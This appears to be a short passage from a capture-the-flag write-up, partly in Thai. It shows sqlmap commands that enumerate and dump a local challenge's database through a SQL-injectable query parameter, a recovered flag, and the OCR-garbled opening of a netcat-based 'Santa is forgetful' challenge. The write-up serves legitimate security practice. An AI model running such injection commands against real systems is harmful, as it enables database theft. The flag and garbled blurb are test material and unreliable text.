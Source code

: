![sqlmap | scan](images/74.png)![sqlmap | dump](images/75.png)

`sqlmap | scan`

```bash
sqlmap -u http://127.0.0.1:2000/books/\?query\= -p query -dbs
sqlmap -u http://127.0.0.1:2000/books/\?query\= -p query --tables
sqlmap -u http://127.0.0.1:2000/books/\?query\= -p query --dump
```

it work

```txt
misc{5WYSNBJW97}
```

# Santa is forgetful! 🎅😄

_I’ve hoard that Santa otton Iosco his notebook of good children, so he costly create a hidden channel to access the list Maybe your name will be on it this year too! 🎅🎁_

เราได้ ip:port มาซึ่ง ไม่รู้ว่ามันคืออะไร ลองไปลองมาจบที่ netcat สรุปมันคือ menu driven program หนึ่งที่รับชื่อไฟล์เข้าไปแล้วเปิด (เหมือนมี delay ให้ช้า)
